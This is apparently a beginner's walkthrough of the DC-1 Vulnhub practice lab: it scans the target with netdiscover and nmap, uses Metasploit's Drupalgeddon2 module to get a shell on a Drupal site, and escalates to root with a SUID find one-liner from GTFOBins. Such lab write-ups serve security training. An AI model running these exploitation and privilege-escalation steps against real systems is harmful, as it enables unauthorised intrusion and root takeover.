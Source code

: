 # DC1 Vulnhub Walkthrough

#### Description
DC-1 is a purposely built vulnerable lab for the purpose of gaining experience in the world of penetration testing.

It was designed to be a challenge for beginners, but just how easy it is will depend on your skills and knowledge, and your ability to learn.

To successfully complete this challenge, you will require Linux skills, familiarity with the Linux command line and experience with basic penetration testing tools, such as the tools that can be found on Kali Linux, or Parrot Security OS.

There are multiple ways of gaining root, however, I have included some flags which contain clues for beginners.

There are five flags in total, but the ultimate goal is to find and read the flag in root's home directory. You don't even need to be root to do this, however, you will require root privileges.

Depending on your skill level, you may be able to skip finding most of these flags and go straight for root.

  
  # Scaning
  
  ### Reconnaissance 
  
Sudo NetDiscover
  
![Screenshot from 2023-01-16 01-16-55](https://user-images.githubusercontent.com/108471951/212977979-8eb9986d-cfe5-43c1-94aa-c37492e289ed.png)

Firstly we have to identify the machine IP address using tool like NetDiscover 
### Nmap

nmap -sV 192.168.0.119 (service version scan)

![Screenshot from 2023-01-17 23-48-32](https://user-images.githubusercontent.com/108471951/212979611-b732a639-bb5c-40b0-a1b5-463c7ed54654.png)


It’s a drupal site. This is first time i seen a Site named Drupal


# Exploiting

msfconsole

search drupal

I have searched for exploit for drupal site in metasploit.
Found some exploits. By using them tried to Exploit 

![Screenshot from 2023-01-16 01-19-36](https://user-images.githubusercontent.com/108471951/212982113-653ef59b-b982-4041-b120-1c32feb029e2.png)




use1

show options

set rhosts [target IP]

exploit

![Screenshot from 2023-01-16 01-20-37](https://user-images.githubusercontent.com/108471951/212984577-492ed27c-4f35-4dfb-a98f-e6e3b2723fb3.png)


After trying some exploits [ exploit/unix/webapp/drupal_drupalgeddon2 ] worked and given a meterpeter shell


![Screenshot from 2023-01-18 00-26-17](https://user-images.githubusercontent.com/108471951/212987116-b5d5c9e3-e308-431c-92ce-ce00bcab8eee.png)


Then using the [shell] comannd I got a Shell

![Screenshot from 2023-01-19 00-41-24](https://user-images.githubusercontent.com/108471951/213274935-894ceccf-4251-4e8e-a05d-38a363400f3b.png)


# Privilege Escalation

Then I tried to change directory to root but its not worked , I dont have root privileges.


![Screenshot from 2023-01-19 00-43-04](https://user-images.githubusercontent.com/108471951/213276028-0d9b9a2d-ddc9-4ccd-bbde-43acd7b08ab1.png)



so in GTFOBins website i find a script for gaining root accses { https://gtfobins.github.io/gtfobins/find/#shell }


                  find . -exec /bin/sh \; -quit


![Screenshot from 2023-01-19 01-03-23](https://user-images.githubusercontent.com/108471951/213277047-d1614401-d5ef-4ba0-ba13-d89743d653c9.png)


Now i got root privilege 

![Screenshot from 2023-01-19 01-06-22](https://user-images.githubusercontent.com/108471951/213277800-001027a5-b2de-4b7c-a1bc-5642687e6332.png)

cd root

ls

cat thefinalflag.txt

Successfully found the flag in root directory.


![Screenshot from 2023-01-19 00-47-37](https://user-images.githubusercontent.com/108471951/213278117-02bc05a5-4ab0-424e-a41e-df32a40c5bf4.png)



